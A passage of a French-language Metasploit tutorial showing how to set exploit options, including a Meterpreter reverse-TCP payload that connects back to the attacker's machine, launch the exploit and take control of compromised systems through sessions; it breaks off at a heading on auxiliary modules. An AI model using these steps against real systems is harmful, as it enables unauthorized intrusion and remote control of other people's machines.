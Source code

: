 ***

#### 4. Configurer les Options

*   **Commande** :

    ```bash
    set <option> <valeur>
    ```
*   **Exemple** :

    ```bash
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    ```
* **Explication** :
  * Configure les options nécessaires pour l'exploit, comme l'adresse IP cible, le payload, et l'adresse de votre machine.

***

#### 5. Lancer un Exploit

*   **Commande** :

    ```bash
    exploit
    ```
* **Explication** :
  * Lance l'exploit configuré pour pénétrer le système cible.

***

#### 6. Gérer les Sessions

*   **Afficher les sessions actives** :

    ```bash
    sessions
    ```
*   **Interagir avec une session** :

    ```bash
    sessions -i <id_de_session>
    ```
* **Explication** :
  * Permet de contrôler un système compromis à travers une session ouverte.

***

###

### 🔍  Étape 3 : Modules Auxiliaires et Payloads

***

